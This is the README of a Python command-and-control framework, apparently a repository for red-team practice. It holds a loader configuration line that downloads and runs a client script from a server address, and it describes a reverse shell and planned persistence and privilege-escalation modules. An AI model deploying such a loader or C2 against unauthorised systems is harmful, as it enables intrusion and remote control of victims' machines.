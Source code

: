 # C2 Framework - Command and Control

This project is a basic Python-based Command and Control (C2) framework for educational and ethical testing purposes. It allows you to establish communication with a remote client, send commands, and receive responses.

**Disclaimer:** This code is provided for educational and research purposes only. The author is not responsible for any misuse of this software. Use it responsibly and ethically, and only on systems you have explicit permission to test.

## Features

*   **Multi-Session Handling:** Manage multiple client connections simultaneously.
*   **Reverse Shell:** Spawn a basic reverse TCP shell on the target client (currently under development).
*   **Modular Design:** Easily extend the framework with new modules.
*   **Dynamic Module Loading:** Load modules from a remote server at runtime (security considerations apply).
*   **Basic Command Set:** Includes commands for testing connectivity, changing sessions, and more.
*   **Docker Support:** Run the server in a containerized environment.

## Getting Started

### Prerequisites

*   Python 3.x
*   Docker (optional, but recommended)
*   pip

### Installation

1.  **Clone the repository:**

    ```bash
    git clone <repository_url>
    cd <repository_name>
    ```

2.  **Install dependencies:**

    ```bash
    pip install -r requirements.txt
    ```

### Running with Docker (Recommended)

1.  **Build the Docker image:**

    ```bash
    docker build -t squidnet .
    ```

2.  **Run the server (using host networking for external access):**

    ```bash
    docker run -it --network host squidnet
    ```

### Running without Docker

1.  **Start the server:**

    ```bash
    python3 server.py
    ```

### Running the Loader

1. **Modify the loader**
  Modify the `loader.py` file so that the url variable points to your servers ip address. For example:
    ```
    url = f"http://<server_ip>:5001/client.py"
    ```
2.  **Run the loader**

    ```bash
    python3 loader.py
    ```

## Usage

1.  **Server Commands:**

    *   `commands`: List all available commands.
    *   `help <command>`: Get help for a specific command.
    *   `session <session_id>`: Switch to a specific session.
    *   `test-con`: test the connection to a session
    *   `shell`: Spawn a reverse shell (currently requires manual interaction on the client-side to complete the connection, check server logs for the client ip address).
    *   `quit`: Exit the server.

2.  **Client Deployment:**

    *   The `loader.py` script downloads and executes `client.py`. You'll need to modify `loader.py` to point to your server's IP address and port where the module server is running (default: `http://<server_ip>:5001/client.py`).

## Future Enhancements

*   **Complete Reverse Shell Implementation:**  Fully develop the `tcp_shell.py` module.
*   **Windows Payloads:** Add support for Windows clients.
*   **Database Integration:** Store session information, logs, and other data in a database.
*   **Persistence:** Implement mechanisms for client persistence on the target system.
*   **Privilege Escalation:** Add modules for privilege escalation.
*   **Cross-Compilation:** Compile payloads for different operating systems automatically.
*   **Authentication and Encryption:** Secure communication between the server and clients.
*   **Web UI:** Develop a web-based user interface for easier management.


## Contributing

Contributions are welcome! Please feel free to submit pull requests or open issues to discuss improvements or bug fixes.

## License

This project is licensed under the [MIT License](LICENSE) - see the LICENSE file for details. (You'll need to create a LICENSE file and put the MIT License text in it).

